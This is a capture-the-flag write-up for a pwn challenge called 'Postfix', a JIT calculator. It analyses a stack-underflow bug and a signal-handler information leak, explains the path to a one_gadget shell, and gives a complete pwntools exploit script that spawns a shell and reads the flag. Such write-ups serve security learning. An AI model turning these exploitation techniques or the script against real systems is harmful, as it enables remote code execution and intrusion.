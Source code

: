# Postfix

## Description

>Maths is hard so I made this super-fast JIT-powered calculator. You can even define funcions! It has many security features, I bet it's super safe!
>
>*Note: A VM is provided to help you replicate the remote setup. Keep in mind that this is **NOT** a kernel/microarch pwn!*

## Analysis

### Checksec
```
Arch:     amd64-64-little
RELRO:    Full RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      PIE enabled
```
As it can be seen, the binary has all the common mitigations enabled.

### Seccomp
```
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x0000000c  A = instruction_pointer >> 32
 0001: 0x25 0x00 0x01 0x00006000  if (A <= 0x6000) goto 0003
 0002: 0x25 0x00 0x01 0x00007000  if (A <= 0x7000) goto 0004
 0003: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0004: 0x06 0x00 0x00 0x00000000  return KILL
```

A simple seccomp filter is also present and it forbids syscalls coming from IPs in the range 0x600000000000 - 0x700000000000.

### Reversing

The binary allows you to define functions with up to one variable in postfix notation. The functions, after being parsed, are JIT-compiled in native x86 code. They can then be called, eventually providing the value of the variable.

Most of the logic happens during the parsing and compilation of the postfix expression.
This starts with the `parse(expr_stack_t *out_stack, char *input, char **parsed)` function: the string is split into tokens, which then get pushed onto an `expr_stack_t` structure as a pair of value and type. 

When an operator is pushed (through the `push_op` function) it gets optimized away if the two previous tokens are constants, since the result can be computed at parse-time as it does not depend on other operations or variables.

The `expr_stack_t` is then passed to `jit_expr`, which does the actual translation to x86 code. 
A prologue which zeroes all registers and migrates to a separate stack (`jit_stk`) is generated and it looks like this:
```
xor eax, eax ; xor all regs except from rdi and rsp
xor ebx, ebx
...
wrgsbase rsp ; save rsp for later
mov rsp, jit_stk ; migrate to jit_stk
call actual_jit_code ; call jit code
rdgsbase rsp ; restore rsp
ret
actual_jit_code:
...
```
The stack is then iterated:
- known-values become push operations through the `opt_push` function, which emits different instructions depending on the size of the value
- variables become `push rdi` instructions (as the variable is passed through `rdi`)
- operators are translated roughly to `pop rbx; pop rax; add/sub/imul/idiv ...; push rax`

The `opt_push` function also applies constant-blinding when a 32-bit or 64-bit constant is pushed as a mitigation against JIT-sprays. This is done by using `val ^ rnd` where `val` is the actual value and `rnd` is a random value which gets generated by the function. A xor operation is then emitted to decrypt this constant at runtime and push it onto the stack.
The generated code might look like this:
```
; opt_push(0xAAAAAAAA)

mov rax, 0xB00CE592  ; = 0xAAAAAAAA ^ 0x1AA64F38
xor rax, 0x1AA64F38      
push rax             ; = 0xAAAAAAAA    
```

The final result is then popped through `pop rax`.

As a final note, the JIT code pages are allocated through `jit_init` at random offsets in the region 0x600000000000-0x700000000000, which is the same range forbidden by the seccomp filter. The JIT stack is allocated by `jit_stk_init` at a random offset in the region 0x300000000000-0x400000000000.

## Vulnerabilities

### Relative RIP control inside the JIT code

The main vulnerability is in the `push_op` function: it should require two numbers on the stack to appply the operator, but the only check is for the stack containing at least two elements, which might not be both numbers. This can allow an attacker to perform a stack underflow, which, using the JIT operations, makes it possible to add arbitrary offsets to the return address of the JIT prologue. 

An example might be `0 x + + 0`, which will add `x` to the return address. The final constant is required as the code inside `parse` keeps a variable named `count` which keeps track of the amount of elements on the stack at runtime and is checked at the end of the function. If this value is different from 1 (which should be the element returned by the function), the `parse` function will fail.

### Information leak through the signal handler stack frame

When a division by zero occurs during the JIT execution, a SIGFPE signal is raised, and a registered sighandler is called. The handler will exit gracefully from the JIT area (through a siglongjmp) and inform the user that an error occured, without crashing the program.  Since the sighandler isn't registered with the `SA_ONSTACK` flag, when it gets invoked during JIT execution it will just use the JIT stack, spilling its stackframe onto it. This can be used to leak various information such as a libc address. It must be kept in mind that the signal handler stack frame has a variable size, since it depends on the size of the `XSAVE` area, which depends on the enabled CPU features (and that's why the challenge was run under QEMU). This should not be a problem since the binary prints CPUID information at the start, including the maximum and actual size of this area.

## Exploitation

We can first trigger the leak by doing a division by zero. To get it as close as possible we can abuse the stack underflow caused by the wrong check in `push_op`.
A payload such as `0 x * * * * / 0 0 0 0` should do the trick. We can play with the number of `*` and `0` (which must anyway be equal to match the `count == 1` constaint) to lower the signal handler stack frame.

Since we can't really pop values from the stack arbitrarily, we'll have to abuse the relative rip control to try and move the stack pointer near a libc leak. We can then add a relative offset to this leak to get a one-gadget, which will give us a shell when the code returns. We can abuse the fact that 8-bit and 16-bit values are not blinded to try and encode instructions. Furthermore, 16-bit values still use a 32-bit `push` instruction, causing them to be sign-extended. I found the `enter` instruction to be particularly useful, since it allows us to move the stack pointer and we can encode it by pushing `0xXXC8` where XX is the amount of bytes which will be added to the stack pointer. As long as XX is less than `0x7F`, the value will be zero-extended and cause the encoding of a `enter XX, 0` instruction, which will decrement the stack pointer by `XX`.

Using this we can reach a libc address and change it to a one-gadget. We can then push one value (the JIT will need to pop a return value) and at the `ret` instruction we'll get a shell. A payload for this might be `x 0 * x - {rsp_offset << 8 | 0xc8} - {SPRAYED_INSN_OFFSET} + + {rsp_offset << 8 | 0xc8} x + + 0`, where `x` is the value to be added to the libc pointer.

## Exploit

```
#!/usr/bin/env python3

from pwn import *

HOST = args.HOST if args.HOST else "localhost"
PORT = args.PORT if args.PORT else 1337

def conn():
    r = remote(HOST, PORT)
    return r

def create_func(func_id, expr):
    r.sendafter(b"> ", b"c\n")
    r.sendafter(b"id: ", func_id.encode() + b"\n")
    r.sendafter(b">>> ", expr.encode() + b"\n")

def execute_func(func_id, arg, get_res=False):
    r.sendafter(b"> ", b"x\n")
    r.sendafter(b"id: ", func_id.encode() + b"\n")
    r.sendafter(b": ", arg.encode() + b"\n")
    if get_res:
        r.recvuntil("result: ")
        return int(r.recvline().decode().strip())

def main():
    global r
    r = conn()

    r.recvuntil(b"supported features: " + context.newline)
    r.recvlines(4)
    xsave_size = int(r.recvline().split(b" ")[1], 16)
    log.info(f"xsave_max_size: {hex(xsave_size)}")

    # 0xebcf8 execve("/bin/sh", rsi, rdx)
    # constraints:
    #     address rbp-0x78 is writable
    #     [rsi] == NULL || rsi == NULL
    #     [rdx] == NULL || rdx == NULL

    CODE_OFFSET = 49

    trigger_sighandler = "0 x " + ("* " * (xsave_size//8 - 7)) + "/ " + ("0 " * (xsave_size//8 - 7))
    payload = f"x 0 * x - {0x60c8} - {CODE_OFFSET} + + {0x60c8} x + + 0"

    create_func("DIV0", trigger_sighandler)
    execute_func("DIV0", "0")

    # <__execvpe+1144>:	lea    rdi,[rip+0xec999]
    one_gadget_addr = 0xebcf8
    log.info(f"one_gadget_addr: {hex(one_gadget_addr)}")

    # <_IO_2_1_stdin_+131>:	0x00000000
    sighandler_leak_addr = 0x219b23
    log.info(f"sighandler_leak_addr: {hex(sighandler_leak_addr)}")

    offset = sighandler_leak_addr - one_gadget_addr
    log.info(f"offset: {hex(offset)}")

    create_func("PWN", payload)
    execute_func("PWN", str(-offset))

    r.sendline(b"cat flag.txt")
    log.info(r.recvregex(b"snakeCTF{.*}", timeout=5).strip().split(context.newline)[-1].decode())
    r.close()

if __name__ == "__main__":
    main()
```